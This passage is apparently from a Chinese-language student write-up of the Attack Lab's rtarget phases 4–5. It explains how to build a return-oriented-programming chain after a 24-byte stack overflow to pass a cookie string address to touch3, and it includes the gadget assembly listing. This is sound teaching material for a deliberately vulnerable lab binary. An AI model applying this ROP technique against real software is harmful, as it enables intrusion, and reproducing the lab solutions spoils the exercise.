 运行

```bash
./hex2raw < p4.txt > p4a.txt
./rtarget -i p4a.txt
```

这下终于大功告成了！

## Phase5

本题类似 Phase3，我们需要讲一个字符数组的起始地址作为 `%rdi` 传参到 `touch3` 函数。

先把 Cookie 转码：`31 31 61 36 37 36 31 30`

根据在 Phase4 中所述方法，首先将全文替换为字节码，以函数截断：

```bash
# Bash
objdump -d rtarget > rtarget.s
cp rtarget.s rtarget.s2
```

然后，在 VS Code 中执行正则替换：

- `.+:\t(([0-9a-f]{2} )+).+` 替换为 `$1`
- `(([0-9a-f]{2} )+)\n` 替换为 `$1`

然后对照表格，查找我们所需要的字节码。

大致解题思路如下：

1. 填充 24 个字节导致溢出，开始利用 ROP
2. 将 `%rsp` 的值压入某寄存器，如 `%rdi` 中
3. 将某寄存器如 `%rax` 使用 `popq` 改写为立即数 Offset，其中 Offset 为初始栈顶指针 `%rsp` 到我们溢出的 Cookie 字符数组的地址的偏移量
4. 利用 `leaq` 计算 Offset + 初始栈顶指针，得到 Cookie 字符数组地址，传给 `%rdi`
5. 跳转到 touch3 函数

对照表格和拥有的 farm，编写代码 `p5.s`：

```asm
movq %rsp,%rax
ret
movq %rax,%rdi
ret
popq %rax
nop
ret
mov %eax,%ecx
nop
ret
mov %ecx,%edx
testb %al,%al
ret
mov %edx,%esi
and %dl,%dl
ret
leaq (%rdi, %rsi, 1),%rax
movq %rax,%rdi
ret
```

